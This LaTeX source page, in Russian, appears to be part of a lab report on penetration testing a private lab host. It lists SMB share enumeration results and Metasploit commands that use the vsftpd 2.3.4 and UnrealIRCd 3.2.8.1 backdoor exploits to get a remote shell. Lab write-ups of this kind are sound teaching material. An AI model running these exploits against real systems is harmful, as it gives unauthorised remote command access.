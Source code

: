 \documentclass[10pt,a4paper]{article}
\begin{document}
\begin{figure}[h!]
\centering
\includegraphics[width=\textwidth]{smb_enumshares}
\caption{Результат работы smb\_enumshares.}
\end{figure}

Получили список директорий, находящихся в общем доступе.

\subsection{Получение консоли с использованием уязвимости в vsftpd}
Для данной уязвимости воспользуемся готовым эксплоитом vsftpd\_234\_backdoor.
Настраиваем и запускаем эксплоит
\begin{verbatim}
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOST 192.168.100.8
exploit
\end{verbatim}

\begin{figure}[h!]
\centering
\includegraphics[width=\textwidth]{vsftpd}
\caption{Результат работы vsftpd\_234\_backdoor.}
\end{figure}

Доступ получен, попробуем выполнить любую команду, например, uname.

\subsection{Получение консоли с использованием уязвимости в irc}
Для данной уязвимости воспользуемся готовым эксплоитом unreal\_ircd\_3281\_backdoor.
Настраиваем и запускаем эксплоит
\begin{verbatim}
use exploit/unix/irc/unreal_ircd_3281_backdoor
set RHOST 192.168.100.8
exploit
\end{verbatim}
\end{document}
